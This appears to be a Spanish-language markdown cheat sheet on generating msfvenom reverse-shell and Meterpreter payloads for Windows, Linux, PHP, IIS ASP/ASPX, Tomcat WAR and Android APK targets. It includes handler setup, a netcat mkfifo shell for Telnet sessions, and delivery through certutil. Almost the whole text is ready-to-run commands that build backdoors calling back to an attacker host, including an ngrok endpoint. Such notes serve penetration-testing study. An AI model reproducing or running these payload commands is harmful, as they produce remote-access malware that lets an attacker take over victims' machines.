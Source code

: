 # Msfvenom 

Tags: #Msfvenom #WebDav #Tomcat 

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Windows Meterpreter

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura

❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > shell.exe
❯ msfvenom -p windows/x64/shell/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > shell.exe
```
### Linux Meterpreter

```bash 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

## PHP Meterpreter

```bash 
❯ msfvenom -p php/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=4444 -f raw > cmd.php 

# Recibir la revershell con Metasploit
❯ msfconsole -q 
❯ use exploit/multi/handler
	❯ options 
	❯ set payload php/meterpreter/reverse_tcp
	❯ set LHOST 172.0.0.1
	❯ set LPORT 4444
	❯ run 
```

## Telnet 

```bash 
❯ msfvenom -p cmd/unix/reverse_netcat LHOST=172.0.0.1 LPORT=4444 R 

Nota: 
	1. Copiar todo el output que inicia con 'mkfifo' y pegarlo en la sesión de Telnet 
	2. Estar en esucha de la siguiente manera 'nc -nlvp 4444'
	3. La 'R' es opcional 
```

## IIS - WebDAV

```bash 
# Estos archivos son el equivalente de un archivo cmd.php en un servidor Apache de Linux que te crean una Revershell. Para los aspx/asp funcionan como una Revershell pero para un IIS en Windows.

❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f aspx -o reverse.aspx    # Stageless 
	# Si la maquina no es x64, podemos quitar esa parte en el payload y convertirla a x86
	# Recibiremos la Revershell con 'Netcat'

❯ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f exe -o reverse.exe  # Stageless  
	# Recibiremos la Revershell con 'Metasploit' usando el modulo de 'multi_handler' y nos dara una consola con 'Meterpreter'
	# Esta Revershell la transferiremos desde nuestra maquina de atacante con python3 y en la maquina victima lo descargaremos con 'Certutil.exe' en el dir 'C:\Users\Public\Downloads' para despues ejecutarlo y obtener la Revershell
	# En 'Metasploit' cuando usamos el 'multi_handler' debemos de cambiar al 'Payload' que colocamos en el comando 
	# Esto lo hacemos en las maquinas Windows  
	

❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f asp > shell.asp
	# p = PLayload 
	# f = Formato

❯ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f aspx > shell.aspx
```
## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

## Android APK

```bash 
❯ msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14015 -o msf.apk

	# p = Payload 
	# LHOST = Dominio de Ngrok
	# LPORT = Puerto de Ngrok (Se encuentra en el dominio de Ngrok)
	# o = Exportar como un 'APK'

❯ msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14015 --platform android -a dalvik -f raw -o Backdoor.apk 
```